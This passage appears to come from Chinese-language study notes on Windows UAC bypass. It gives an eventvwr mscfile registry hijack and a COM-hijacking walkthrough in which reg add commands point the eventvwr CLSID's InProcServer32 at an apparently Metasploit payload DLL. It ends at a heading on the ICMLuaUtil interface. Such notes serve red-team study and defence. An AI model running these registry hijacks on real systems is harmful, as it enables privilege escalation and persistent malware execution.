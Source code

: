 ### eventvmr

    
    
    reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d C:\Windows\System32\cmd.exe /f  
      
  
---  
  
win10，win7均无效,不知道是哪个版本的事了，反正记录下来吧。

## 5\. COM劫持

和dll劫持类似，应用程序在运行时也会去加载指定CLSID的COM组件，其加载顺序如下

    
    
    HKCU\Software\Classes\CLSID  
    HKCR\CLSID  
    HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellCompatibility\Objects\  
      
  
---  
  
以eventvwr为例

执行该程序时会去寻找{0A29FF9E-7F9C-4437-8B11-F424491E3931}这个组件，这个组件又需要加载InProcServer32指定的DLL，而这个DLL的路径可由用户定义。

而eventvwr的这个组件一般在HKCR\CLSID找到，所以可以搜索路径劫持。

利用以下方法可以劫持（搜索路径劫持）

    
    
    reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "" /t REG_SZ /d "d:\msf_x64.dll" /f   
      
    reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "LoadWithoutCOM" /t REG_SZ /d "" /f   
      
    reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "ThreadingModel" /t REG_SZ /d "Apartment" /f   
      
    reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder /v "HideOnDesktop" /t REG_SZ /d "" /f   
      
    reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder /v "Attributes" /t REG_DWORD /d 0xf090013d /f  
      
  
---  
  
## 6\. 利用com接口

### ICMLuaUtil

### ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815101555.png)
